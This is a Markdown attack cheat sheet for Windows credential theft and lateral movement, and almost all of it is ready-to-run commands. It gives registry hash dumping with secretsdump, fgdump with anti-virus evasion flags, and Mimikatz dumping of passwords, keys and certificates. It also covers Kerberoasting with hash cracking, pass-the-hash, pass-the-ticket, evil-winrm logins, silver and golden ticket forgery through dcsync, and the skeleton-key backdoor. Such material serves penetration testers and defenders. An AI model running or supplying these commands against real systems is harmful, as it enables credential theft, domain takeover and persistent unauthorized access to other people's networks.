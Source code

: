 # Credentials and Pivoting

## Credentials harverst

### Manual hash dump - All windows versions

#### Key retrieval

Administrative privileges are required to dump register keys

```
reg.exe save hklm\sam c:\dp\sam.save
reg.exe save hklm\system c:\dp\system.save
reg.exe save hklm\security c:\dp\security.save
```

#### Local decryption

Impacket - secretsdump.py

```
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

Samdump

```
samdump2 system.save sam.save
```

### fgdump.exe - Windows 2000,XP

Runs locally, creates a file with the hashes.

```
fgdump.exe
fgdump.exe -t    #test for anti-virus presence
fgdump.exe -a    #don't try to disable anti-virus
fgdump.exe -r    #ignore existing dump files
```

### Mimikatz - Windows Vista,7,8,10

Elevate as NT AUTHORITY / SYSTEM

```
privilege::debug
token::whoami
token::elevate
```

Harvest credentials

```
sekurlsa::logonpasswords
sekurlsa::backupkeys
sekurlsa::credman
sekurlsa::dpapi
sekurlsa::dpapiSystem
sekurlsa::ekeys
lsadump::secrets
lsadump::sam
```

Harvest certificates and auth keys

```
crypto::listProviders
crypto::listKeys
crypto::listCertificates
crypto::exportCertificates
crypto::exportKeys
```

### Kerbertoasting

Obtain service login tickets by knowing its SPN (Service Principal Name)

```
klist
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"
mimikatz.exe
kerberos::list /export
```

Crack the tickets locally. If John doesn't recognize the format install the Jumbo version from GitHub. These can be used to log into the service machine.

```
john --format=krb5tgs -w=<dict> <hash file>
hashcat -m 13100 --force -a 0 <dict> <hash file>
```

## Pivoting

### Pass the Hash

Use the hash to login in another machine as a local user without knowing its password. Works because NTLM hashes are static so if a user logs into different machines his hash will remain the same on each host.

```
pth-winexe -U <domain>/<user>%aad3b435b51404eeaad3b435b51404ee:<LM hash> //<target ip> cmd
smbexec.py <user>@<ip> -hashes aad3b435b51404eeaad3b435b51404ee:<LM hash>
#mimikatz
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<NTLM> /run:powershell.exe
```

### Pass the Ticket

Loads a ticket in memory granting the current user access to the remote machine/service within the context of the current session.

```
sekurlsa::tickets /export
kerberos::ptt <.krbi file>
.\PsExec.exe -accepteula \\<target host> cmd
```

### Winrm

```
evil-winrm -i <ip> -u Administrator -p <password>
evil-winrm -i <ip> -u Administrator -H <hash>
```

### Tickets

#### Silver ticket

```
kerberos::golden /domain:<domain> /sid:<SID> /rc4:<hash> /user:<user> /service:<srv> /target:<host>
kerberos::ptt ticket.kirbi
.\PsExec.exe -accepteula \\<target host> cmd
```

#### Golden ticket

```
lsadump::dcsync /user:<domain>\<user>
kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /krbtgt:<ticket> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
.\PsExec.exe -accepteula \\<target host> cmd
```

#### Skeleton key

```
misc::skeleton
```
